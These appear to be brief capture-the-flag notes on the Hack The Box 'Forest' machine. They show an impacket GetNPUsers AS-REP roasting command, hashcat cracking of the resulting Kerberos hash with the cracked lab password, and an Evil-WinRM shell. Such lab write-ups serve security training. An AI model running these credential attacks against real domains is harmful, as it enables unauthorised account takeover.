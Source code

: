 santi


GetNPUsers.py HTB.local/ -request -format hashcat -outputfile npusers.hash -dc-ip 10.10.10.161

https://youtu.be/pZSyGRjHNO4
```
C:\tmp\hashcat-6.1.1>hashcat -m18200 forest.kerberos rockyou.txt --show

                     $krb5asrep$23$svc-alfresco@HTB.LOCAL:3166db4a36d1044f5f4f37cdd4aab0bc$2861146859fad9e8396eb56763c6054aef5bf09f834e63132aaf7f58b42ba253a1f4d5309583d1eea7870cb1b281da3367c12cc4029f6b8643a10d88a6e87dd720a7903b01598a2c290bb2e4d0c21923b50ff6d74527302a68f8c11607156d15de27ea9bae4bc0a2ced27c3fa6b595d079b2ce13954b7cea80bef15230464a4c0e56d1b74ea8314ba6469f481743d2f11ec7d9e550ad41f34b8a4be2b40ca8d7e18e130f58ea3e596c752196071a8db2ddc802075a00784e50dd39afb71d97f9a74ec50b552e9bda1b23626427c81710f2eaa902f4a7650ca95e5bb3c3c8bcdb7539c4d33e98:s3rvice 

```
svc-alfresco:s3rvice

![](2021-01-14-17-55-58.png)


*Evil-WinRM* PS C:\Users> [System.Environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0

![](2021-01-14-17-58-04.png)
